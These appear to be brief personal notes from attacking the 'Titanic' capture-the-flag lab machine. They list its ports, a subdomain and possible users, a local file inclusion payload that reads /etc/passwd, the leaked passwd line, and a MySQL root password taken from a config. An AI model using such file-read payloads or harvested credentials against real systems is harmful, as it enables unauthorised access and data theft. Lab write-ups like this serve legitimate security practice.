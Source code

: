 
Titanic

10.10.11.55
titanic.htb

ports 22, 80

lfi - `//download?ticket=/etc/passwd`

developer:x:1000:1000:developer:/home/developer:/bin/bash

dev.titanic.htb
possible users: administrator, developer

`MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'`


